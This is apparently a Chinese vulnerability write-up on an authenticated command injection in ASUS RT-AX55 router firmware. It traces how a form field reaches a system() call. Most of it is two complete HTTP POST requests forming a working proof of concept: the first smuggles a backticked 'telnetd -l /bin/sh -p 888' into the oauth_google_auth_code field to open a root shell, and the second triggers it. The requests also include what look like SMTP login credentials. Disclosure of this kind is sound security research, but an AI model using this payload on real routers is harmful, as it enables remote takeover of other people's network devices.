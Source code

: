 # 0x01  漏洞描述 #

asus `rt-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0004d76c`中，从http请求参数`action_script`获取`oauth_google_gen_token_email`值，进而进入函数`FUN_000bc540`。

![](./img//1.png)

在函数`FUN_000bc540`。

![](./img//2.png)

进入函数`FUN_000b9190`，从nvram中获得`oauth_google_auth_code`的值，最后将`oauth_google_auth_code`的值拼接到system函数。

![](./img//3.png)


# 0x04  漏洞复现 #

设置`oauth_google_auth_code`的值。

requst1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 563
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1947294877%40qq.com&PM_SMTP_AUTH_USER=1947294877&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%20888`'

![](./img//4.png)

触发命令注入。

requst2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_gen_token_email&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=197%40qq.com&PM_SMTP_AUTH_USER=197&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//5.png)

![](./img//6.png)

# 0x05  漏洞修复 #

过滤`oauth_google_auth_code`的中单引号。